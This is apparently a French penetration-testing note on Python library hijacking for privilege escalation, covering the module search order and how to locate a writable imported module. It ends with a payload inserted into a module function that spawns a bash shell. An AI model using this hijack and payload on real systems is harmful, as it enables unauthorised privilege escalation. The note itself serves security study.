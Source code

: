 
> [!warning]
> Si possible d'écrire dans le répertoire ou se situe le script -> Créer un module dans le répertoire et il sera executé avant le pyhtonpath

## 🧭 Ordre de recherche des modules en Python (`import`)

Quand Python exécute `import module`, il cherche **dans cet ordre** :

1. **Le répertoire courant** (où le script Python est lancé) ➡️ `""` dans `sys.path[0]`

2. **Les chemins listés dans `PYTHONPATH`** (si définis dans l’environnement)

3. **Les répertoires standards** de l’installation Python (ex: `/usr/lib/python3.11/`, `site-packages/`, etc.)

4. Les fichiers `.zip` si tu as des archives de modules dans les paths

5. Les modules intégrés (builtins)



- [ ] [[#Wrong write permission]]
- [ ] [[#Library Path]]
- [ ] [[#PYTHONPATH Environment Variable]]
- [ ] [[#Python Module CVEs]]

## Wrong write permission

1. Identifier les modules importés par le script

```
cat <script.py> | grep import
```

2. Identifier une fonction utilisée par le module dans le script

```
cat <script.py> | grep <module>.*
```

3. Identifier le path pour le module contenant la fonction

```shell
pip3 show <module>
```

```sh
grep -r "def <fonction>" /module/location
```

4. Identifier un fichier de module modifiable contenant la fonction 

```sh
ls -la /module/location
```

5. Insérer payload dans la fonction du module

```python
	import os
	os.system('/bin/bash')
```
